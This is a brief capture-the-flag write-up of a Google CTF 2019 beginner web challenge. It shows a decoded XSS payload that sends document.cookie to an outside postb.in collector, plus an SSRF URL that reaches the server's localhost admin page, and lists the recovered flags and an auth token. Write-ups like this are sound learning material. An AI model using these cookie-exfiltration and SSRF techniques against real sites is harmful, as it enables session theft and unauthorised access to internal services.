 ```yaml
---
title: cookie
layout: post
dir: /csec-writeups
---
```


<h2> Methodology: </h2>
* tried this:
<img src = "{{ page.dir }}/assets/google-ctf/cookie1.png" alt="">

* also tried this method: 
<img src = "{{ page.dir }}/assets/google-ctf/cookie2.png" alt="">

* The statement encoded above states "javascript:document.location='https://postb.in/b/1591988477067-4363618670031/?cookie='+document.cookie;" 
* flag: CTF{3mbr4c3\_the\_c00k1e\_w0r1d\_ord3r}
* auth: TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
* the auth gives us the admin link, and to get the next flag, we do an ssrf attack
* there is a link to a video that makes a request to the server from the server; we replace that request with a request to localhost as shown below
* full link: http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
* snippet of code used to craft payload found here: https://github.com/dillonwu-97/csec-code/blob/master/google_ctf/beginner_2019/cookie/payload.py
* flag: CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}